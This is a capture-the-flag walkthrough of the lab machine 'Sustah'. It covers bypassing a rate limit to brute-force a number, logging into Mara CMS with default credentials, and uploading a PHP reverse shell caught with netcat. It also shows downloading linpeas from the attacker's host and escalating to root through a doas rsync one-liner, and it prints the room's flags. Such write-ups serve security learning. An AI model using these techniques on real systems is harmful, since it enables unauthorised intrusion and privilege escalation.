

# Sustah

## Description

Play a game to gain access to a vulnerable CMS. Can you beat the odds?

The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?

## Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:

* 22 ssh
* 80 http
* 8085 http

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
|_  256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Susta
|_http-server-header: Apache/2.4.18 (Ubuntu)
8085/tcp open  http    Gunicorn 20.0.4
|_http-title: Spinner
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web (port 80)

First I headed to web service on port 80. It has nothing to offer except for a quote, which is useless:

I ran `gobuster` and `nikto` on it, but got nothing useful.

## Web (port 8085)

I moved on to the other web service on port 8085. Here we can see a spinner wheel that takes an input and we spin the wheel:

Apparently, we have to guess the right number to pass.

### Finding the Number

I tried brute-forcing the number, but after some tries, I got an error that says "rate limit execeeded". I searched for rate limit bypass and came across [this](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass) blog by HackTricks.

To avoid the rate limit error, we should add `X-Remote-Addr: 127.0.0.1` to our headers. Now that there is nothing to stop the brute-force attack, we can move on.

We can use `burpsuite`'s "Intruder", but it takes a really long time to complete, so I decided to code a python script to speedup the process. Here's the [script](files/bruteforcer.py). Just add the machibe IP and run the script:

~~~py
#!/usr/bin/env python3

import requests
import sys

url = "http://<MACHINE IP>:8085/"
s = requests.Session()

for number in range (10000,99999):
    headerd = {"X-Remote-Addr" : "127.0.0.1"}
    data = {"number" : number}
    output = s.post(url, headers=headerd, data=data)

    if "Oh no! How unlucky. Spin the wheel and try again." in output.text:
        pass
    else:
        print(f"WE GOT DA NUMBAH: {number}")
        sys.exit(0)
~~~

I set the range from 10000 to 99999 and after running the script, I got the right number:

~~~
└─$ python3 bruteforcer.py
WE GOT DA NUMBAH: 10921
~~~

Number: `10921`

### The Path

Let's send the number and see what we get:

~~~
└─$ curl -s "http://$IP:8085" -d "number=10921" | html2text

0
****** Spinner Wheel ******
    * [arrow]
    * [wheel]
***** Spin the wheel *****
spin
Feeling lucky? Guess the right number. You have a 0.004% chance of winning.
[Unknown INPUT type] Click
**** path: /YouGotTh3P@th ****          <----------
~~~

As you can see, we got a directory.

The path: `/YouGotTh3P@th`

### CMS

I tried to navigate to this directory on port 8085, but got a 404 code. I tried it on port 80 and got through and faced this page, which shows the existence of "Mara CMS":

CMS: `Mara`

### CMS Version

I ran `gobuster` on this directory and found a few ones:

~~~
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP:80/YouGotTh3P@th -x txt,html,php,js

[REDACTED]

/blog                 (Status: 301) [Size: 327] [--> http://10.10.53.124/YouGotTh3P@th/blog/]
/changes.txt          (Status: 200) [Size: 627]                                               
/contact.php          (Status: 200) [Size: 7729]                                              
/css                  (Status: 301) [Size: 326] [--> http://10.10.53.124/YouGotTh3P@th/css/] 
/gallery.php          (Status: 500) [Size: 0]                                                 
/img                  (Status: 301) [Size: 326] [--> http://10.10.53.124/YouGotTh3P@th/img/] 
/index.php            (Status: 200) [Size: 14021]                                             
/log                  (Status: 301) [Size: 326] [--> http://10.10.53.124/YouGotTh3P@th/log/] 
/plugin               (Status: 301) [Size: 329] [--> http://10.10.53.124/YouGotTh3P@th/plugin/]
/sitemap.php          (Status: 200) [Size: 1446]                                                
/template             (Status: 301) [Size: 331] [--> http://10.10.53.124/YouGotTh3P@th/template/]
/theme                (Status: 301) [Size: 328] [--> http://10.10.53.124/YouGotTh3P@th/theme/]
~~~

When we head to `/changes.txt`, we can see the version. You can probably find it else where, but I found it here:

~~~
└─$ curl -s "http://$IP/YouGotTh3P@th/changes.txt" | head -n1
Mara 7.5:
~~~

CMS version: `7.5`

## Reverse Shell

I searched for exploits of this CMS version using `searchsploit` and found one that requires authentication:

~~~
└─$ searchsploit mara CMS 7.5
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Mara CMS 7.5 - Reflective Cross-Site Scripting                                      | php/webapps/48777.txt
Mara CMS 7.5 - Remote Code Execution (Authenticated)                                | php/webapps/48780.txt
------------------------------------------------------------------------------------ ---------------------------------
~~~

The exploit gives us the instructions on how to gain a reverse shell on the machine. There were also the default creds for this CMS:

* Username: `admin`
* Password: `changeme`

Let's try the creds to see if they are valid. In order to login, navigate to `http://<MACHINE IP>/YouGotTh3P@th/?login` and a bar we'll be added to the top of the page. I tried the creds and got through.

Now we need to find a place to insert our reverse shell. Navigate to `/codebase/dir.php?type=filenew` and here you can upload files. I uploaded a reverse shell, which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Save this reverse shell in a file and modify it to change the IP inside it to yours and change the port if you want to (I changed mine to 4444).

Now upload the file and I saved it in `/template`. Click on "Start Upload" and refresh the page:

Now the shell sould appeare in the folder tree:

Now open a listener (`rlwrap nc -lvnp 4444`) and click on the `shell.php` and now you should have a reverse shell on your machine.

The first thing I did was spawning a TTY shell using a python one-liner:

~~~
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu-xenial:/$
~~~

## www-data -> kiran (lateral move)

Now we need to escalate to a more privileged user. First I listed `/home` to see the users on the machine and there is only one:

~~~
www-data@ubuntu-xenial:/$ ls /home
kiran
~~~

So we need to switch to user `kiran`. The hint tells us that there is a backup file somewhere. I started looking for it and found a hidden backup file in `/var/backups` that we have read access to:

~~~
www-data@ubuntu-xenial:/var/backups$ ls -la
total 636
drwxr-xr-x  2 root root     4096 Dec  9  2020 .
drwxr-xr-x 14 root root     4096 Dec  6  2020 ..
-r--r--r--  1 root root     1722 Dec  6  2020 .bak.passwd    <----------
-rw-r--r--  1 root root    51200 Dec  6  2020 alternatives.tar.0
-rw-r--r--  1 root root     6308 Dec  9  2020 apt.extended_states.0
-rw-r--r--  1 root root      715 Dec  6  2020 apt.extended_states.1.gz
-rw-r--r--  1 root root      509 Nov 12  2020 dpkg.diversions.0
-rw-r--r--  1 root root      207 Dec  6  2020 dpkg.statoverride.0
-rw-r--r--  1 root root   547201 Dec  6  2020 dpkg.status.0
-rw-------  1 root root      849 Dec  6  2020 group.bak
-rw-------  1 root shadow    714 Dec  6  2020 gshadow.bak
-rw-------  1 root root     1695 Dec  6  2020 passwd.bak
-rw-------  1 root shadow   1031 Dec  6  2020 shadow.bak
~~~

It is a backup file of `/etc/passwd` and user `kiran`'s password is inside it:

~~~
www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd

[REDACTED]

kiran:x:1002:1002:trythispasswordforuserkiran:/home/kiran:
                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^
~~~

kiran's password: `trythispasswordforuserkiran`

Now we have `kiran`' password and we can switch to this user:

~~~
www-data@ubuntu-xenial:/var/backups$ su kiran
Password: trythispasswordforuserkiran
kiran@ubuntu-xenial:/var/backups$ id
uid=1002(kiran) gid=1002(kiran) groups=1002(kiran)
~~~

## User Flag

Now that we have switched to user `kiran`, we can go ahead and read the user flag in kiran's home directory:

~~~
kiran@ubuntu-xenial:/var/backups$ cd
kiran@ubuntu-xenial:~$ cat user.txt
6b18f161b4de63b5f72577c737b7ebc8
~~~

User flag: `6b18f161b4de63b5f72577c737b7ebc8`

## Going Root

Now in order to obtain the root flag, we need to gain root access. First I ran `sudo -l` to check my sudo permissions:

~~~
kiran@ubuntu-xenial:~$ sudo -l
[sudo] password for kiran: trythispasswordforuserkiran
Sorry, user kiran may not run sudo on ubuntu-xenial.
~~~

As you can see, we have none. I decided to upload `linpeas` on the target machine to speedup the enumeration process. To do so, first save [linpeas](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh) in a file. Then we need to start a http server, where the script is located.

On your machine:

~~~
└─$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

On the target machine, we downlaod the file, mark it as executable and then run it:

~~~
kiran@ubuntu-xenial:~$ wget http://<YOUR IP>:8000/linpeas.sh
kiran@ubuntu-xenial:~$ chmod +x linpeas.sh
kiran@ubuntu-xenial:~$ ./linpeas.sh -a
~~~

I started looking through the output and found this:

~~~
╔══════════╣ Checking doas.conf
 permit nopass kiran as root cmd rsync
~~~

As you can see, we have permissin to run `rsync` with `doas` as `root`. Doas is a utility that allows a user account to run a command as another user account. It basicly works like sudo for us.

I searched [GTFOBins](https://gtfobins.github.io/) for `rsync` command and found a command that can gain us root access:

~~~bash
$ doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
~~~

I ran this command and switched to root:

~~~
kiran@ubuntu-xenial:~$ doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Now we can head to `/root` and read the root flag:

~~~
# cd /root
# ls
root.txt
# cat root.txt
afbb1696a893f35984163021d03f6095
~~~

Root Flag: `afbb1696a893f35984163021d03f6095`

# D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )